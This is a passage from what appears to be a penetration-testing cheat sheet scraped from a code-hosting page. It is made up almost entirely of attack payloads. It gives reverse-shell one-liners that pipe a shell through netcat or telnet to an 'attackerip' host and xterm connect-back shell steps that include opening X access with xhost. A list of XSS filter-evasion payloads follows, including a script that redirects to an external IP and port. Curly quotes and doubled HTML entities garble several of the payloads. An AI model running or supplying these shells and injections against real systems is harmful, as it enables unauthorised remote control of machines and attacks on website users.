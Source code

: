 #### If you installed the wrong version of netcat, try the following command

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f

    TELNET rebound Shell

#### If netcat is not available

    mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe

    XTERM rebound Shell

#### Enable the X server (: 1 – listen on TCP port 6001)

    apt-get install xnest
    Xnest :1

#### Remember to authorize the connection from the target IP

    xterm -display 127.0.0.1:1

#### Grant access

    xhost +targetip

#### Connect back to our X server on the target machine

    xterm -display attackerip:1
    /usr/openwin/bin/xterm -display attackerip:1
    or
    $ DISPLAY=attackerip:0 xterm

#### XSS

    # https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
    (“< iframes > src=http://IP:PORT </ iframes >”)

    <script>document.location=http://IP:PORT</script>

    ‘;alert(String.fromCharCode(88,83,83))//\’;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//\”;alert(String.fromCharCode(88,83,83))//–></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

    “;!–”<XSS>=&amp;amp;{()}

    <IMG SRC=”javascript:alert(‘XSS’);”>
    <IMG SRC=javascript:alert(‘XSS’)>
    <IMG “””><SCRIPT>alert(“XSS”)</SCRIPT>””>
    <IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>
